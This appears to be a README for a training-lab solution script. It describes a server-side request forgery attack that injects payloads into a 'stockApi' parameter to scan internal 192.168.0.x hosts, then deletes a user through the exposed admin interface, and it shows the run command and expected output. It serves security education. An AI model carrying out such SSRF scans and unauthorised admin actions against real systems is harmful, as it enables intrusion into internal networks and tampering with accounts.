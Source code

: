 # Hack Steps

1. Inject payload into 'stockApi' parameter to scan the internal network
2. Delete carlos from the admin interface

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python basic_ssrf_against_another_back_end_system.py
```

# Expected Output

```
⟪#⟫ Injection point: stockApi
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.15:8080/admin)..
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.120:8080/admin)..
                            ....................
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.218:8080/admin).. OK
⦗2⦘ Deleting carlos from the admin interface.. OK
🗹 The lab should be marked now as solved
```
